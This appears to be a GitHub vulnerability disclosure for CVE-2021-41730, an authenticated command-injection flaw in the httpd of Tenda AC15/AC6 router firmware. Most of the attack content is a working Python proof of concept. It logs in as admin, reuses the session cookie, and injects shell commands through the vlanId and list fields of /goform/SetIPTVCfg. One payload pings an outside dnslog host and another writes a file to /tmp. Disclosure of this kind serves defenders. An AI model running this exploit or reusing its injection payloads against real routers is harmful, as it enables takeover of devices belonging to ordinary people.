 # TENDA Authorization Remote Command Execution
**Exploit Author:**  IBULI(hsx713826@gmail.com)
</br>**Vender:** TENDA

## CVE-2021-41730 - /bin/httpd
**Firmware version:**  
AC15: <=US_AC15V1.0BR_V15.03.05.20_multi_TDE01.bin
</br>AC6: US_AC6V1.0BR_V15.03.05.16_multi_TD01.bin  
.......
</br>**Hardware Link:** https://www.tendacn.com/en/download/detail-3858.html

## The detail of vulnerability
In the httpd binary,Due to the lack of valid verification, attackers can tamper with the values of stbEn, igmpEn, iptvType, vlanId and List fields in packets to realize a series of circumvention, resulting in remote arbitrary command execution vulnerability.

#### Vulnerability trigger function
`formSetIptv()`
</br>
![image](https://github.com/IBUILI/vulnerability/blob/main/images/1.png)
####  Actual vulnerability trigger function
`sub_B0F14() / sub_B1100()`
![image](https://github.com/IBUILI/vulnerability/blob/main/images/2.png)
#### sub_B0F14()
![image](https://github.com/IBUILI/vulnerability/blob/main/images/3.png)
#### sub_B1100()
![image](https://github.com/IBUILI/vulnerability/blob/main/images/4.png)
#### Burpsuite intercept
![image](https://github.com/IBUILI/vulnerability/blob/main/images/5.png)

## POC
<sup> 


  
  
    # !/usr/bin/env python
    # -*- coding: utf-8 -*-
    import requests
  
    def POC(ip,cmd1,cmd2,pwd):
        try:
            body = {
                'username': 'admin',
                'password': pwd
            }
            headers = {
                'Host': ip,
                'Accept': '*/*',
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36',
                'X-Requested-With': 'XMLHttpRequest',
                'Origin': 'http://' + ip,
                'Referer': 'http://' + ip + '/login.html',
                'Accept-Encoding': 'gzip, deflate',
                'Accept-Language': 'zh-CN,zh;q=0.9',
                'Content-Type': 'application/x-www-form-urlencoded',
                'Connection': 'close'
            }
            r = requests.post(url="http://" + ip + "/login/Auth",
                              data=body,
                              headers=headers,
                              allow_redirects=False )
            password = r.headers['Set-Cookie'].strip("password=").strip("; path=/")
            try:
                body = {
                    'stbEn':'1',
                    'igmpEn':'0',
                    'iptvType':'manual',
                    'vlanId':cmd1,
                    'list':cmd2 }
               headers = {
                    'Host': ip,
                    'Accept': 'application/json, text/javascript, */*; q=0.01',
                    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36',
                    'X-Requested-With': 'XMLHttpRequest',
                    'Origin': 'http://'+ip,
                    'Referer': 'http://'+ip+'/iptv.html?random=0.5429353367490362&',
                    'Accept-Encoding': 'gzip, deflate',
                    'Accept-Language': 'zh-CN,zh;q=0.9',
                    'Cookie': 'password='+password,
                    'Content-Type':'application/x-www-form-urlencoded'}
               r = requests.post(url="http://" + ip + "/goform/SetIPTVCfg",
                                  data=body,
                                  headers=headers,
                                 allow_redirects=False)
                print(r.text)
           except Exception as e:
               print("[error]:", ip)
        except Exception as e:
            print("[error]:", ip)


    if __name__ == "__main__":
        ip = '192.168.0.1'
        cmd1 = '1";ping -c 5 fry8vd.dnslog.cn;echo "'
        cmd2 =  '1";echo 2>/tmp/hello3.txt;echo "'
        password = '21232f297a57a5a743894a0e4a801fc3'
        POC(ip,cmd1,cmd2,password)



</sup>


## DEMO
  [![Watch the video](https://raw.github.com/GabLeRoux/WebMole/master/ressources/WebMole_Youtube_Video.png)](https://youtu.be/lmPos_Z6jRg)
